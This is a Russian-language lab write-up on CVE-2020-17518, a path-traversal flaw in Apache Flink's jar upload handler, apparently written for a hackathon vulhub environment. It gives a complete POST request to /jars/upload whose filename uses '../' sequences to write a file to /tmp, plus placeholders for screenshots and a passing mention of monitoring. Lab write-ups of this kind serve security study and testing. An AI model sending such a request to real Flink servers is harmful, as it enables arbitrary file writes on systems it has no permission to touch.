 # CVE-2020-17518

### Материалы:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2020-17518" %}

{% embed url="https://www.opencve.io/cve/CVE-2020-17518" %}

{% embed url="https://www.programmersought.com/article/236511184567/" %}

Apache Flink - это фреймворк для обработки потоков с открытым исходным кодом, обладающий мощными возможностями потоковой и пакетной обработки.

В Apache Flink 1.5.1 появился REST-обработчик, позволяющий записать загруженный файл в произвольное место локальной файловой системы через злонамеренно измененный HTTP HEADER.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/flink/CVE-2020-17518

Для запуска узявимой среды выполните команду

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8081 будет доступна домашняя страница Apache Flink

\---- скрин web ----

Для эсплуатации уязвимости отправьте соответствующий POST-запрос:

```
POST /jars/upload HTTP/1.1
Host: ваш-ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

\---- скрин отправки запроса в burp ----

После его отправки будет на машине будет создан файл /tmp/success

\---- скрин создания файла ----

вазух&#x20;

\---- скрин вазух ----

